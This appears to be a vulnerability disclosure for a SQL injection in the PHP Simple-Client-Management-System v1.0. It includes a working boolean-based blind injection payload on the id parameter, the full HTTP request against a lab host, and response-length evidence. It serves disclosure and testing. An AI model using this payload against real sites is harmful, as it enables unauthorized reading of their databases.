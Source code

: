 # Simple-Client-Management-System v1.0 by oretnom23 has SQL injection

**Author：** k0xx

vendors: https://www.sourcecodester.com/php/15027/simple-client-management-system-php-source-code.html

Vulnerability File: /cms/admin/?page=client/view_client&id=

Vulnerability location: /cms/admin/?page=client/view_client&id=,id

[+] Payload: /cms/admin/?page=client/view_client&id=4%27%20and%20length(database())%20=7%20--+ // Leak place ---> id

Current database name: cms_db,length is 6

```sql
GET /cms/admin/?page=client/view_client&id=4%27%20and%20length(database())%20=7%20--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=3m0l1n81dvmlo0a3h9oo72q1gp
Connection: close
// Leak place ---> id
```


When length (database ()) = 6, Content-Length: 26834
![image](https://user-images.githubusercontent.com/54017627/164884093-145f43b9-056f-4e73-9518-3b058e7377a0.png)

![image](https://user-images.githubusercontent.com/54017627/164884062-40f58259-141d-42e6-b229-b2356a5535c3.png)

When length (database ()) = 7, Content-Length: 27247
![image](https://user-images.githubusercontent.com/54017627/164884103-52eab746-a48c-4921-a204-235412efa56a.png)

![image](https://user-images.githubusercontent.com/54017627/164884072-7366569e-2b51-4b26-b781-3c2d48ed0b60.png)


